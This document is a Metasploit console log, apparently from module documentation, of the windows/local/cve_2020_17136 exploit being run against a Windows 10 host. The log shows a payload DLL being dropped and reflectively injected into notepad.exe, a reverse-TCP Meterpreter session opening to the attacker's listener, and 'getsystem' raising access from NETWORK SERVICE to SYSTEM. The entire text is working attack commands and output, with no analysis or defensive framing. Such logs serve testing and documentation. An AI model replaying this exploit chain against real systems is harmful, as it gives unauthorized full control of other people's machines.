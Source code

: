 ```
msf exploit(windows/local/cve_2020_17136) > set LHOST 172.22.159.28
LHOST => 172.22.159.28
msf exploit(windows/local/cve_2020_17136) > run

[*] Started reverse TCP handler on 172.22.159.28:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. A vulnerable Windows 10 20H1 build was detected!
[*] Dropping payload dll at C:\Windows\Temp\BXNkequQiAvYxuVp.dll and registering it for cleanup...
[*] Running module against DESKTOP-KUO5CML
[*] Launching notepad.exe to host CLR...
[+] Process 100 launched.
[*] Reflectively injecting the Host DLL into 100..
[*] Injecting Host into 100...
[*] Host injected. Copy assembly into 100...
[*] Assembly copied.
[*] Executing...
[*] Start reading output
[+] Sync connection key: 2733760425760
[+] Done
[*] End output.
[+] Execution finished.
[*] Sending stage (200262 bytes) to 172.22.152.177
[*] Meterpreter session 2 opened (172.22.159.28:4444 -> 172.22.152.177:49968) at 2021-01-08 11:18:19 -0600

meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > getsystem
...got system via technique 4 (Named Pipe Impersonation (RPCSS variant)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
```